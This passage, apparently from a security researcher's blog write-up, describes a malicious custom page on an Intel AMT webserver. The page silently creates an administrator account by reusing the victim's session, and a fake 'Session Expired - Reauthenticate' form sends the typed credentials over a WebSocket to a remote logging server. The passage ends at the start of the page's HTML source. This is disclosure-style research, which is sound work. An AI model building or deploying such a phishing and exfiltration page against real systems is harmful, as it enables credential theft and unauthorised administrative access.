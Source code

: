 _Figure 10 - WebSocket Server (ws-server.mjs) output on new admin created_

It is worth noting that after the initial authentication request, the browser does not prompt the victim administrator to enter credentials necessary to perform the operation.  That means that the browser is reusing the authentication token granted in the initial authentication request to perform additional authenticated requests against the AMT webserver.

## The Second Attack

In addition to creating a new administrator account, there is a second attack I built in.  There is a small form on the custom page with the title `Session Expired - Reauthenticate`.  The idea is trick an administrator into typing in their credentials into these fields thinking they need to reauthenticate to the AMT webserver.  When either on of the text input's fire the `onblur` event, the contents of both the username and the password text inputs are sent over the WebSocket connection to the remote server.  The remote server logs these authentication attempts.

![](/images/01042023/reauth-cli.png)

_Figure 11 - WebSocket server (ws-server.mjs) output on reauthentication attempt_

## HTML File (default.htm)

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
        <link rel="stylesheet" href="/styles.css">
        <title>Intel® Active Management Technology</title>
    </head>
<body>
    <table class="header">
        <tbody>
            <tr>
                <td valign="top" nowrap="nowrap">
                        <p class="top1">
                                Intel
                        <font class="r">
                            <sup>®</sup>
                        </font> 
                        Active Management Technology
                        </p>
                        <p class="top2">
                            <b>Computer:</b>
                        </p>
                </td>
                <td valign="top">
```